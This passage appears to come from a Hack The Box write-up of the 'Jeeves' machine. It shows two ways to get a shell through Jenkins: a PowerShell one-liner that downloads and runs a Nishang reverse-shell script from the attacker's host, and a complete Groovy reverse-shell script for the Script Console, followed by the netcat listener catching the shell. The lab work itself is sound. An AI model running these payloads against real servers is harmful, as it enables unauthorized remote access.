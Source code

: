 It successfully ran the command.

I can replace the payload to spawn a reverse shell.

I prepared `rshell_9000.ps1` forked from nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/raw/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1).

```bash
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/rshell_9000.ps1')"
```

### Method #2 Groovy script

Another method is using "Script Console". ("Manage Jenkins" -> "Script Console")

![](attachments/jeeves_9.png)

```groovy
String host="10.10.14.3";
int port=9000;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

The listener soon spawned a shell as `kohsuke`.

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.63] 49682
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```
